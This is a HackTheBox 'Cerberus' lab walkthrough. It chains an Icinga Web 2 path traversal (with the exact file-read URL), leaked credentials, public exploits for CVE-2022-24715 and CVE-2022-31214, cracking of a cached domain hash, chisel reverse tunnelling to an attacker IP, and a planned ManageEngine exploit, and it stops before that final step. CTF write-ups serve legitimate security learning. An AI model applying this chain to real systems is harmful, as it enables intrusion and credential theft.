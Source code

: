 <h3> Cerberus HackTheBox </h3>

### Difficulty = Hard

### IP Address = 10.10.11.205

#### This is my first hard rated hackthebox machine and its a windows box xD

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/227714366-b69f0657-52ca-4fc5-b305-2f3da790d02d.png)

I added the domain name to my `/etc/hosts` file

```
➜  ~ cat /etc/hosts | grep cer
10.10.11.205    icinga.cerberus.local cerberus.local
➜  ~ 
```

After navigating to the web server I got this login page
![image](https://user-images.githubusercontent.com/127159644/227714514-c5dd3dc0-be36-4dc9-b8dc-03615a144e83.png)

Since weak cred doesn't work (lets face it this is an hard htb box 😂) I decided to check for exploits

And i found a path transversal exploit

Here's the resource [Exploit](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

To get the `/etc/passwd` file according to the exploit you goto

```
Vuln: http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
```

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227714671-da582c0f-4cab-4f48-abeb-5e79c1b2839a.png)

And now if you read the resource you will see that authenticated user can then gain RCE via ssh key

First on the normal login page looking at the source code shows this
![image](https://user-images.githubusercontent.com/127159644/227714915-e0a99cbb-6f70-4034-a54a-df36067011a4.png)

```
file:///etc/icingaweb2/ssh/nima
```

It shows us the path to the `Icinga Web 2` 

That is useful cause we want to enumerate creds

So i asked chatgpt and got the answer
![image](https://user-images.githubusercontent.com/127159644/227715278-9ee180a5-8746-494e-ac21-72b053213df1.png)

Trying that works
![image](https://user-images.githubusercontent.com/127159644/227715327-c72c1305-3955-422e-8e98-8728ed152669.png)

```
Username: matthew
Password: IcingaWebPassword2023
```

Using that to login works
![image](https://user-images.githubusercontent.com/127159644/227715398-130e54c1-1494-497b-8c22-f55e8dae793f.png)

From here we can get RCE using the same resource that exploited the path transversal

#### Exploitation: Remote Code Execution (CVE-2022-24715)

Using this exploit scrpit [Exploit](https://github.com/JacobEbben/CVE-2022-24715/blob/main/exploit.py)

I got shell
![image](https://user-images.githubusercontent.com/127159644/227747439-4c75a59c-8f97-4b7c-a2c7-59662defba6b.png)

Now this is weird cause cerberus is a windows box and not a linux box 

That means we're in some sort of container 🤔

Next thing is to get root and checking for suid binary shows this
![image](https://user-images.githubusercontent.com/127159644/227747986-0d824e24-6530-4251-8c57-05c5c6750d8a.png)

```
/usr/bin/firejail
```

So i searched for exploit and found this [Resource](https://www.openwall.com/lists/oss-security/2022/06/08/10)

There's an exploit script for (CVE-2022-31214) [Exploit](https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py)

I transferred it to the target and run it, my privilege was escalated to root
![image](https://user-images.githubusercontent.com/127159644/227748283-8094b1ee-e287-4a56-8070-63a9f633fe1d.png)

After getting root i decided to find a way to escape this container

THen on running linpeas.sh i got this
![image](https://user-images.githubusercontent.com/127159644/227748494-a022052d-65dd-4081-81e6-570bb807c7a2.png)

Cache Cred is True in this joined domain host

So i asked chatgpt again and it says the path where the cred and information of a windows joined domain host is located at `/var/lib/sss/db`

After checking i saw that `cache_cerberus.local.ldb` has an hash

Then i cracked it and it belongs to user `matthew`
![image](https://user-images.githubusercontent.com/127159644/227749264-b16beab8-9eeb-4d54-9a6a-422541ee7a30.png)

But where do we login from?

Now i want to scan the whole host to know what ports are hosts are up

Using nmap compiled binary i scanned the host and figured that winrm is open
![image](https://user-images.githubusercontent.com/127159644/227749590-c14b2e92-50ec-4997-8dd2-333d727ff508.png)

With this i can now port forward using chisel to my host then login to the winrm as user matthew
![image](https://user-images.githubusercontent.com/127159644/227749695-19a8d29d-d16b-4dbf-b6f1-6f8597764201.png)

So i logged in as user matthew to the winrm service
![image](https://user-images.githubusercontent.com/127159644/227749766-ab9d6c82-c92d-4910-bdef-5d51215b3388.png)

#### Privilege Escalation

Checking `Program Files (x86)` I got `ManageEngine\ADSelfService Plus` 
![image](https://user-images.githubusercontent.com/127159644/227749914-b740b10e-0ff3-4909-86fe-8b5cbd576056.png)

Searching for exploit leads here [Resource](https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html)

I'll port forward again using chisel in order to exploit the service running internally
![image](https://user-images.githubusercontent.com/127159644/227750304-c7085dd0-fe09-40fd-8e04-2deb54df0ecf.png)

```
# Attacker
chisel server -p 9090 --reverse

# Target
.\chisel-x64.exe client 10.10.14.175:9090 R:9091:socks
```

Since we need some requirements before exploitating the service lets get em

Now i can use metasploit to exploit the service


